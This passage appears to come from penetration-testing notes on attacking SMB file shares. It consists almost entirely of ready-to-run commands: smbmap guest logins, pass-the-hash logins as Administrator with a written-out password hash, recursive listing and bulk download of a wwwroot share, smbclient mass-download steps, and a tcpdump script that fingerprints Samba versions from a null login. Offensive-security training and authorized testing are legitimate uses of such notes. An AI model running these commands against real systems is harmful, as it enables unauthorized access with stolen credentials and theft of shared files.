 	smbmap -u guest -p '' -H $ip
	
	smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip
	
	smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip -r # list top level dir
	
	smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip -R # list everything recursively
	
	smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip -s wwwroot -R -A '.*' # download everything recursively in the wwwroot share to /usr/share/smbmap. great when smbclient doesnt work
	
	smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip -x whoami # no work

### Download all files

	smb: \> RECURSE ON
	
	smb: \> PROMPT OFF
	
	smb: \> mget *

### Downloads a file in quiet mode

	smbmap -R $sharename -H $ip -A $fileyouwanttodownload -q

## smbver.sh

	#!/bin/sh
	#Author: rewardone
	#Description:
	# Requires root or enough permissions to use tcpdump
	# Will listen for the first 7 packets of a null login
	# and grab the SMB Version
	#Notes:
	# Will sometimes not capture or will print multiple
	# lines. May need to run a second time for success.
	
	if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
	if [ ! -z $2 ]; then rport=$2; else rport=139; fi
	tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
	echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
	sleep 0.5 && echo ""

